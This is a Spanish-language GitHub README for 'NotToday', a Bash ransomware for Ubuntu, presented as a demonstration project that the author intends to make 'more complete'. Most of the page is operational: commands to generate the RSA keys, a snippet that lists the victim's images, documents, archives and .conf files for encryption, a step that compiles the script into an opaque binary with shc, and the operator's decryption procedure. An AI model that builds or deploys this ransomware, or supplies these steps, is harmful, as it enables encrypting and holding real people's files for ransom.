<p align="center"><img src="https://raw.githubusercontent.com/EduardoDesdes/NotToday/master/ntd.jpeg"</p> 

----

[![Build Status](https://travis-ci.org/joemccann/dillinger.svg?branch=master)](https://travis-ci.org/joemccann/dillinger)

NotToday en un ransomware programado en Bash Scripting de uso para distribuciones Ubuntu y derivados. Creado para la demostracion del funcionamiento de un ransomware y el impacto que este puede desmebocar en un computador. Así mismo el codigo aquí expuesto esta sujeto a cambio y actualizaciones de manera que se logre un malware mucho mas completo.

## Configuracion Inicial
### Creacion de llaves RSA
Creamos una llave privada RSA aleatoria de una cantidad especifica.

    $ openssl genrsa -out clave.pem 4096

Luego creamos la llave publica mediante la llave privada.

    $ openssl rsa -in clave.pem -out clave.pub.pem -outform PEM -pubout
    
### Insertar la llave publica en el codigo
Para esto debemos editar el archivo ***pwn.sh*** por en contenido de la llave publica.
```bash
#Clave Publica
echo "-----BEGIN PUBLIC KEY-----" >> clave.pub.pem
...
...
echo "-----END PUBLIC KEY-----" >> clave.pub.pem
```

### Seleccionar que formato de ficheros desea encriptar
```bash
#Generar los archivos a encriptar
locate -r "\.jpg$" > /tmp/list.ntm
locate -r "\.jpeg$" >> /tmp/list.ntm
locate -r "\.png$" >> /tmp/list.ntm
locate -r "\.pdf$" >> /tmp/list.ntm
locate -r "\.odt$" >> /tmp/list.ntm
locate -r "\.rar$" >> /tmp/list.ntm
locate -r "\.zip$" >> /tmp/list.ntm
locate -r "\.txt$" >> /tmp/list.ntm
locate -r "\.conf$" >> /tmp/list.ntm
```

## Creacion del binario para ejecucion
Para crear el binario usaremos una herramienta llamada ***shc***.

    $ shc -v -r -f pwn.sh
    
Nos encontraremos con dos archivos, ***pwd.sh.x*** y ***pwn.sh.c***.

- ***pwd.sh.x***: El archivo ejecutable del ransomware.
- ***pwn.sh.c***: El script en c del ransomware.

## Recuperar los ficheros encriptados
Al realizarse satisfactoriamente el encriptado de los ficheros el ransomware deja un fichero denominado ***enviame.enc***, se deberá colocar en la misma carpeta que el archivo ***dcry.sh*** y la llave privada ***clave.pem***. Y ejecutar el siguiente comando.

    $ bash dcry.sh

El cual generará un fichero llamado ***key.txt***. Y ahora usaremos el fichero ***repa.sh*** para recuperar todos los archivos encriptados usando la key obtenida.

    $ bash repa.sh

## Creditos

Autor: ***Eduardo Sarria (Desdes)***

Facebook: [https://www.facebook.com/eduardo.s.desdes](https://www.facebook.com/eduardo.s.desdes)

Linkedin: [https://www.linkedin.com/in/eduardodesdes/](https://www.linkedin.com/in/eduardodesdes/)

OpenBugBounty: [https://www.openbugbounty.org/researchers/EduardoDesdes/](https://www.openbugbounty.org/researchers/EduardoDesdes/)